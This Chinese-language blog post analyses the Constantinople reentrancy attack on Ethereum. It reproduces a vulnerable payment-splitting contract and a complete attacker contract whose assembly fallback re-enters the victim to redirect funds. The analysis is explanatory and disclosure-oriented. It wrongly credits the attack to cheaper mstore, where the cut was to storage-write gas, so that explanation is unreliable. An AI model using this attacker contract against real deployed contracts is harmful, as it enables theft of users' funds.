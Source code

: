 ```yaml
---
layout: post
title: "Ethereum 君士坦丁堡重入攻击"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 前情简介

以太坊预计在 [7080000](https://amberdata.io/blocks/7080000) 区块进行君士坦丁堡网络升级，升级内容主要包含了 [EIP 145](https://eips.ethereum.org/EIPS/eip-145)、[EIP 1014](https://eips.ethereum.org/EIPS/eip-1014)、[EIP 1052](https://eips.ethereum.org/EIPS/eip-1052)、[EIP 1283](https://eips.ethereum.org/EIPS/eip-1283) 和 [EIP 1234](https://eips.ethereum.org/EIPS/eip-1234)，但就在升级的前一天，[ChainSecurity](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9) 爆出此次升级可能会导致主网上的合约遭受重入攻击。

### 攻击分析

ChainSecurity 示例中被攻击合约如下

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;  // 1.
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be: 
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);          // 2.
    b.transfer(depo * (100 - splits[id]) / 100);  // 5.
  }
}
```

攻击合约如下

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {  // 3.
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))  // 4.
    }    
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

1. 首先攻击者调用 `deposit` 发送一定数量的 ETH 给被攻击合约
2. 接着调用 `attack` 方法，将所有资金发送给攻击者的地址
3. 由于攻击者是一个合约地址，因此 fallback 方法被触发
4. fallback 方法重新触发 updateSplit 并将 splits[id] 值更改为 0
5. 此时继续执行第二笔转账就会导致合约资金被盗取

> 流程可以参考 twitter 上的[这张图](https://twitter.com/mandrigin/status/1085579865380843520)

![constantinople reentrancy attack]({{ site.url }}/assets/pictures/blockchain/ethereum/constantinople_reentrancy_attack.png)

之所以攻击能够生效，是因为 `transfer` 方法默认指定 2300 gas limit，而 `mstore` 操作在此次网络升级之前消耗的 gas 超过 2300，而在此次网络更新之后降低为 200 gas，这就导致了 mstore 能够成功执行。

#### inline assembly code

> call(g, a, v, in, insize, out, outsize)  
> *call contract at address a with input mem[in…(in+insize)) providing g gas and v wei and output area mem[out…(out+outsize)) returning 0 on error (eg. out of gas) and 1 on success*

最后我们来分析一下这段汇编代码做了什么，首先通过 `web3.utils.sha3("updateSplit(uint256,uint256)")` 计算并获取方法签名的前4个字节 0xc3b18fb6，接着我们将该方法签名补齐32字节并存储到 0x80 地址（当前 solidity 实现将自由内存指针 [0x80](https://solidity.readthedocs.io/en/v0.5.2/assembly.html) 存放在 0x40 位置），然后通过 `call` 调用，`call` 的参数解释如下，指定花费 gas limit 10000，被攻击者合约地址 x，转账 ether 金额 0，方法和参数起始地址 0x80，参数的长度 0x44(即 68 bytes = 4 method sign bytes + 32 bytes uint256 + 32 bytes uint256)，输出值的起始地址 0，输出值的长度 0，最后把 `call` 返回值从栈中移除。


[*ethereum-constantinople-upgrade-announcement*](https://blog.ethereum.org/2019/01/11/ethereum-constantinople-upgrade-announcement/)  
[*security-alert-ethereum-constantinople-postponement*](https://blog.ethereum.org/2019/01/15/security-alert-ethereum-constantinople-postponement/)  
[*Constantinople enables new Reentrancy Attack*](https://medium.com/chainsecurity/constantinople-enables-new-reentrancy-attack-ace4088297d9)  
[*Solidity Assembly*](https://solidity.readthedocs.io/en/v0.5.2/assembly.html)